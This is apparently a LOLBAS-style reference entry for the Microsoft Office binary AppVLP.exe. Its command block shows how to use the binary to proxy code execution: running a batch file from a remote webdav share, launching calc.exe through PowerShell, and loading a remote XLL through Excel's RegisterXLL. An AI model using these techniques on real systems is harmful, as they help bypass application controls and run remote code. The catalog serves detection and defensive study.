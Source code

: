 
## Appvlp.exe
* Functions: Execute
```

AppVLP.exe \\webdav\calc.bat
Executes calc.bat through AppVLP.exe

AppVLP.exe powershell.exe -c "$e=New-Object -ComObject shell.application;$e.ShellExecute('calc.exe','', '', 'open', 1)"
Executes powershell.exe as a subprocess of AppVLP.exe and run the respective PS command.

AppVLP.exe powershell.exe -c "$e=New-Object -ComObject excel.application;$e.RegisterXLL('\\webdav\xll_poc.xll')"
Executes powershell.exe as a subprocess of AppVLP.exe and run the respective PS command.
```
   
* Resources:   
  * https://github.com/MoooKitty/Code-Execution
  * https://twitter.com/moo_hax/status/892388990686347264
   
* Full path:   
  * C:\Program Files\Microsoft Office\root\client\appvlp.exe
  * C:\Program Files (x86)\Microsoft Office\root\client\appvlp.exe
   
* Notes: Thanks to fab - @0rbz_ (No record), Will - @moo_hax (Code Execution)  
   

